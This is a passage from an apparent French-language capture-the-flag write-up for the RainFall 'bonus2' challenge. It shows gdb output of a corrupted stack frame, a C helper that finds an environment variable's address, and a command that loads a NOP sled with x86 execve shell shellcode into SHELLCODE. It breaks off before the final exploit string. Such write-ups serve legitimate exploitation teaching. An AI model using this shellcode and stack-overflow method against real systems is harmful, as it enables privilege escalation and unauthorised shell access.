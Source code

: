 Lors de l'exécution, nous avons rencontré un segmentation fault dû à des problèmes de corruption de la pile. La frame de pile avait été corrompue avec nos caractères 'B':

```bash
(gdb) info frame
Stack level 0, frame at 0x4242424a:
 eip = 0xbffff588; saved eip Cannot access memory at address 0x42424246
```

## Exploitation

Après avoir bien compris la disposition de la mémoire, nous avons développé une stratégie d'exploitation fiable en utilisant des variables d'environnement:

### Étape 1: Création d'un Programme Auxiliaire

Nous avons créé un programme C pour trouver l'adresse de notre shellcode dans l'environnement:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char *addr = getenv("SHELLCODE");
    if (addr) {
        printf("SHELLCODE address: %p\n", addr);
    } else {
        printf("SHELLCODE not found\n");
    }
    return 0;
}
```

### Étape 2: Configuration du Shellcode dans l'Environnement

Nous avons placé notre shellcode dans une variable d'environnement avec un NOP sled:

```bash
export SHELLCODE=$(python -c 'print "\x90"*200 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
```

### Étape 3: Recherche de l'Adresse du Shellcode

Nous avons trouvé l'adresse de notre shellcode dans un environnement propre:

```bash
bonus2@RainFall:~$ env -i SHELLCODE=$SHELLCODE /tmp/get_shellcode_addr
SHELLCODE address: 0xbfffff06
```

### Étape 4: Construction de l'Exploit Final

En utilisant notre compréhension de la disposition de la mémoire, nous avons construit notre exploit final avec:

